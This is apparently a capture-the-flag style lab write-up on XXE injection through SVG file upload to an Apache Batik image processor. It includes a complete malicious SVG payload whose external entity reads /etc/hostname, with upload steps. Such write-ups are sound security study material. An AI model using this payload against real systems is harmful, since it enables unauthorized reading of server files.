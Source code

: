 ```yaml
---
tags: ["File upload", "XXE"]
image: https://cdn.acunetix.com/wp-content/uploads/2017/07/11110651/XXE_600x315.png
---
```


## XXE attacks via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

## Challenge

> This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
> To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

--> So i googled for `Apache Batik Svg XXE` and i found one blog which describes it in detail. You can find it [here](https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/)

So i just made one svg file and added this payload in it:

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="800px" height="200px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-family="Verdana" font-size="60" x="10" y="40">&xxe;</text></svg>
```

Save this file as `exploit.svg`

--> I have changed `width`,`height` and `font-size` because the output was not visible correctly.

So now goto any blog post and post comment and add `exploit.svg` as avatar image.

After that goto source code and click image link and you will see the output of `/etc/hostname` in image!

![](Attachments/Pastedimage20220303133040.png)

And we solved the lab!
